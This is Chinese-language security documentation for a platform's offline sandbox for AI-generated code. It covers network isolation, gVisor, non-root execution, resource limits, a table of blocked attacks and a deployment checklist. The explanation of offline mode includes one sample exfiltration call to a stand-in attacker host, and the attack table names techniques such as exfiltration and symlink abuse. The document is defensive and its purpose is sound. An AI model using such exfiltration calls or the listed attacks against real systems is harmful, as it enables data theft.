

# 安全与离线沙箱

代码执行需要单独配置兼容的沙箱与执行器。社区源码预览本身不等于已部署并验证运行时。下文描述受支持的隔离约定，部署维护者必须针对实际安装的运行时核验。

团队所有者和管理员在 **团队设置 › 智能体 › 运行上限 › 沙箱计算** 调整默认和最长执行时长。页面会显示部署上限，团队最长时长不能超过它。保存后对新任务生效，运行中的任务保留启动时的上限。选择 **使用部署默认值**，核对后保存，即可重新继承默认值。

隔离计算默认申请 120 秒，部署默认执行硬上限为 600 秒，管理员可调整。执行超时表示超过申请的时间；服务不可达表示执行器连接失败。如果响应或清理未获确认，结果是未知，应先核对原任务再重试。延长时间不能修复不可用的执行器。

Bowra 的安全设计把“谁可以使用什么数据”和“任务代码可以接触什么环境”分开控制。即使 AI 为任务生成了代码，它也不会直接运行在平台主服务或您的电脑上。

Bowra 将任务中的 AI 生成代码视为不可信代码，并在受约束的执行环境中运行。沙箱是防护层之一，不能代替身份、数据权限和业务结果审核。

## 一次隔离计算怎样完成

任务提供明确的输入文件和受限命令。执行器创建隔离容器，仅挂载所需工作数据，设置运行上限，收集允许的输出，并在任务结束后销毁环境。任务不会获得宿主机文件系统、宿主凭据或一般网络连接。

## “离线沙箱”是什么意思

沙箱没有对外网络路由。代码不能联网下载软件包、调用外部 API、扫描内网或通过网络发送数据。受支持工作所需的依赖需预先放入镜像。外部服务访问由明确且单独授权的集成完成。

## 运行边界

- **身份与系统调用：**非 root 用户、受限系统调用与 capability 配置。
- **文件：**仅提供当前任务范围内的输入与输出路径；宿主挂载不可写。
- **资源和生命周期：**CPU、内存、进程数、输出和时间上限约束失控任务，结束后清理环境。
- **执行器：**创建沙箱的服务验证任务约定，不向工作负载暴露其凭据。

## 常见攻击尝试

无网络路由时，网络回传会失败。缺少宿主访问权及 Linux 权限时，读取宿主文件、特权操作和挂载修改会失败。进程激增、大量输出和无限循环受到资源及超时约束。这些控制限制影响范围，不能保证任意代码绝无风险。

## 共同责任

用户应只提供必要的数据，不把密钥放进任务材料。团队管理员应限制外部集成和数据源。部署维护者应更新沙箱、执行器、宿主内核及容器策略，并在相关改动后验证断网、只读挂载、非 root、capability 移除及超时清理。

隔离、最小权限、有限输入、生命周期清理及持续维护共同降低单层缺陷导致宿主或数据泄露的风险；任何安全系统都不能保证永远不会被绕过。

代码不会自行登录 Bowra、北极九章或其他内部服务。输入文件由平台在容器启动前准备；输出由平台在容器结束后检查并保存。沙盒只看到本次明确传入的副本，不会看到成员的全部文件、其他会话目录或平台数据库。

## 2. “离线沙盒”是什么意思

离线是执行时的强制条件，不是给代码的一句提示。

- 容器以 `network=none` 启动，不能访问互联网、团队内网、Bowra API 或云元数据地址。
- 运行时不能从 PyPI、npm 或其他软件源下载依赖。
- 需要的依赖必须已经放入版本化镜像，或由平台从只读、锁定哈希的本地 wheelhouse 提供。
- 输入先由平台按当前成员权限下载到本次工作目录；沙盒不能凭文件 ID 自行取数。
- 执行凭据、文件读取令牌和执行器令牌只留在可信服务侧，不写入容器可见的 `input.json`。

因此，类似 `requests.post("attacker.example", data=...)`、`curl` 或包管理器联网安装都会因没有网络而失败。离线也意味着代码不能临时查询外部资料；需要外部数据时，应先通过已授权工具取得，再将结果作为显式输入交给沙盒。

## 3. 沙盒里提供什么环境

当前镜像面向数据分析和 Office 文档处理。版本随 Bowra 发布升级，以当前部署实际镜像为准。

| 类别         | 当前提供的环境                                                                                                           |
| ------------ | ------------------------------------------------------------------------------------------------------------------------ |
| 脚本运行时   | Python 3.12、Node.js 24、Bash 5；直接的 AI 隔离计算使用 Python，受支持的 Skill 还可使用 `.py`、`.sh`、`.js`、`.mjs` 入口 |
| 数据分析     | pandas、NumPy、SciPy、statsmodels、scikit-learn、Matplotlib、Seaborn、PyArrow                                            |
| 表格与文档   | openpyxl、python-pptx、python-docx、pypdf、pdfplumber、Pillow、LibreOffice Impress、Poppler                              |
| 中文与图形   | Noto CJK 字体、DejaVu 字体，Matplotlib 默认支持中文显示                                                                  |
| 常用命令     | `jq`、`sqlite3`、`zip`、`unzip`、`7z`、`fdfind`、`rg`、`bc`、`soffice`、`pdftoppm`                                       |
| 预置 Node 包 | pptxgenjs、jszip、lodash、papaparse、dayjs                                                                               |
| 文件位置     | `/workdir/input.json` 记录输入清单，`/workdir/inputs/` 存放明确传入的文件，产物写入 `/workdir` 顶层                      |

根文件系统只读。用于业务文件的可写区域是本次运行的 `/workdir` 和受容量限制的临时 `/tmp`。沙盒中没有编译工具链，也没有 npm；普通运行不能执行在线 `pip install`。平台批准的长尾 Python 依赖只能从离线 wheelhouse 安装，并同时通过名称校验、锁文件校验和哈希校验。

## 4. 恶意代码会遇到哪些边界

### 运行身份与系统调用隔离

沙盒进程使用非 root 用户运行，Linux capability 全部删除，并启用 `no-new-privileges`。生产编排默认使用 gVisor 的 `runsc`：它在容器和宿主内核之间增加用户态内核边界，减少恶意系统调用直接触达宿主内核的机会。

部署可以在维护场景显式切换为标准 `runc`，但隔离强度会降低。对高敏感数据或不可信 Skill，部署维护者应确认实际运行时为 `runsc`，而不是只看配置文件中的期望值。

### 文件边界

执行器只允许挂载沙盒根目录下一个真实的、本次专用的子目录。它会解析真实路径并拒绝根目录本身、越界路径和指向外部的路径。其他任务目录不会挂进容器，离线依赖目录只读。

沙盒可以修改或删除本次 `/workdir` 中的输入副本，所以不能把工作目录当成永久存储。原始 Artifact 仍由平台保存。收集结果时，平台只读取工作目录顶层的新普通文件，拒绝符号链接，避免恶意代码创建指向宿主文件的链接并诱导平台上传。

### 资源与生命周期边界

执行器统一设置 CPU、内存、交换空间、进程数、临时盘和墙上时间上限。当前生产默认值为 1 个 CPU、4096 MB 内存、128 个进程、512 MB 临时盘，单次最长 120 秒；部署可在安全评估后调整。请求不能自行放宽这些值。

超时后，执行器会按服务端生成的容器名强制删除容器。正常结束也会自动删除。这样，无限循环或 fork bomb 即使触发，也会同时受到 CPU、进程数和时间限制。

### 执行器边界

主应用不挂载 Docker socket。只有独立的 sandbox-executor 能创建容器，而且它不接受任意 Docker 参数：镜像、运行时、挂载、用户身份和安全开关都由执行器自己的配置决定。调用方只能提交位于允许根目录下的工作目录、经过锁定集合校验的依赖和不超过上限的超时时间。

执行器只有一个受令牌保护的运行接口，位于容器私网且不发布宿主机端口。即使应用侧请求被操纵，也不能借接口挂载宿主根目录、换成攻击者镜像或关闭隔离参数。

## 5. 常见攻击会怎样处理

| 恶意或失控行为                   | 主要控制                                               | 可能看到的结果                           |
| -------------------------------- | ------------------------------------------------------ | ---------------------------------------- |
| 把数据发送到外部网站             | `network=none`                                         | 连接失败，数据不能从沙盒联网发出         |
| 扫描平台 API、数据库或云元数据   | 无网络；内部地址未挂入；无凭据                         | 连接失败或没有可用身份                   |
| 读取其他任务或宿主目录           | 只挂本次工作目录；路径必须位于允许根下；只读根文件系统 | 路径不存在、无权限或只能看到容器自身文件 |
| 读取环境变量寻找密钥             | 控制键和令牌不进入容器；运行环境最小化                 | 只能看到无敏感凭据的运行配置             |
| 提权、挂载设备或改变内核参数     | 非 root、capability 全删、禁止提权、gVisor             | 系统调用被拒绝或被隔离运行时拦截         |
| 无限循环、内存打满、创建大量进程 | CPU、内存、进程数和时间上限；超时强制删除              | 本次运行失败，不持续占用无限资源         |
| 在线安装恶意包                   | 无网络；没有 npm；pip 仅允许离线锁定 wheelhouse        | 安装失败或未批准依赖被拒绝               |
| 用符号链接把宿主文件伪装成产物   | 产物收集拒绝符号链接，只接受普通文件                   | 该路径不会被上传为结果                   |
| 生成超大输出拖垮服务             | 单文件 50 MB 上限；标准输出只给模型有界预览            | 超限产物被拒绝，本次运行报告失败         |

## 6. 哪些事情仍需人员和平台共同控制

沙盒降低恶意代码的爆炸半径，但不能替代以下工作：

- **最小化输入**：只把完成任务所需的文件和字段传入。代码仍能读取本次明确提供的全部输入。
- **审核高风险 Skill**：团队发布审批要检查脚本用途、依赖变化和输出行为。沙盒隔离不等于业务逻辑正确。
- **持续更新**：及时升级 gVisor、Docker、基础镜像、LibreOffice、解析库和依赖锁，修复已知漏洞。
- **核对生产运行时**：高安全部署应验证实际 runtime 为 `runsc`。`runc` 是兼容回退，不能提供同等的额外内核隔离。
- **保护执行器主机**：sandbox-executor 拥有 Docker socket，必须保持接口不对外发布、令牌强随机且主机管理权限最小化。
- **监控与响应**：关注连续超时、内存不足、异常大产物、执行器鉴权失败和残留容器，并按事件流程调查。
- **备份原始数据**：工作目录是一次性区域。需要长期保存的结果必须由平台成功登记为 Artifact。

## 7. 能否保证“绝不会被攻破”

不能做绝对保证。容器运行时、gVisor、Docker 和预装解析库都可能出现未知漏洞；拥有宿主机管理权限的人也不在不可信代码沙盒的防护范围内。

Bowra 能提供的是可核验的纵深防御：默认 gVisor、执行时断网、无密钥、非 root、只读根文件系统、最小挂载、固定安全参数、资源上限、超时强杀和产物复验。单层失效时，其他层仍然限制攻击路径和影响范围。

对于最高敏感等级的数据，建议再叠加独立计算节点、严格的主机访问控制、镜像签名与漏洞扫描、集中审计和定期攻防测试。是否允许 AI 代码接触某类数据，应由团队的数据分级和风险接受规则决定。

## 8. 部署维护者验收清单

上线或升级后，至少确认：

1. 主应用没有挂载 `/var/run/docker.sock`，只有 sandbox-executor 挂载。
2. sandbox-executor 没有 `ports` 对外发布，应用通过容器私网访问并使用非空令牌。
3. Docker 已注册 `runsc`，实际沙盒运行使用 `runsc`；若临时采用 `runc`，风险接受和恢复时间有记录。
4. 实测沙盒不能联网，根文件系统只读，进程身份为非 root，capability 为空。
5. 实测越界工作目录和符号链接产物被拒绝。
6. 实测无限循环达到时限后容器被强制删除，宿主机没有残留运行容器。
7. 镜像版本和离线 wheelhouse 锁文件与本次发布一致，未批准依赖会失败关闭。
8. 一个普通成员只能把自己当前有权读取的 Artifact 作为输入，输出归属于当前成员和会话。

权限与数据范围如何在进入沙盒前判断，请查看 [权限与访问说明书](permissions.zh-CN.md)。遇到 Agent、连接或数据授权问题，请查看 [访问排障](permissions/troubleshoot-access.zh-CN.md)。
